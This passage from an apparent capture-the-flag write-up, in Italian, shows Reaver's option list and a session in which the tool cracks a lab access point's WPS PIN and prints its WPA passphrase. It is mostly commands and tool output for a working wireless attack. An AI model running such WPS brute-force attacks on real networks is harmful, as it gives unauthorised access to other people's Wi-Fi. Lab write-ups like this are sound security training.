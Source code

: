 ```shell-session
        -r, --recurring-delay=<x:y>     Sleep for y seconds every x pin attempts
        -t, --timeout=<seconds>         Set the receive timeout period [10]
        -T, --m57-timeout=<seconds>     Set the M5/M7 timeout period [0.40]
        -A, --no-associate              Do not associate with the AP (association must be done by another application)
        -N, --no-nacks                  Do not send NACK messages when out of order packets are received
        -S, --dh-small                  Use small DH keys to improve crack speed
        -L, --ignore-locks              Ignore locked state reported by the target AP
        -E, --eap-terminate             Terminate each WPS session with an EAP FAIL packet
        -J, --timeout-is-nack           Treat timeout as NACK (DIR-300/320)
        -F, --ignore-fcs                Ignore frame checksum errors
        -w, --win7                      Mimic a Windows 7 registrar [False]
        -K, --pixie-dust                Run pixiedust attack
        -Z   
```

Ho bisogno del nome dell'interfaccia in modalità monitor e del BSSID dell'AP di destinazione. L'esempio in basso, reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv mostra che il BSSID sembra un indirizzo MAC e, in effetti, lo è.
L'AP di destinazione è wlan0, che ha un MAC dal comando iw sopra di 02:00:00:00:00:00. L'interfaccia in modalità monitor è mon0. La maggior parte dei tutorial sui reaver mostrano l'uso del comando wash per ottenere il BSSID/MAC


```shell-session 
netadmin@wifinetic:/etc$ reaver -i mon0 -b 02:00:00:00:00:00 -vv

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Switching mon0 to channel 1
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 2 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
```
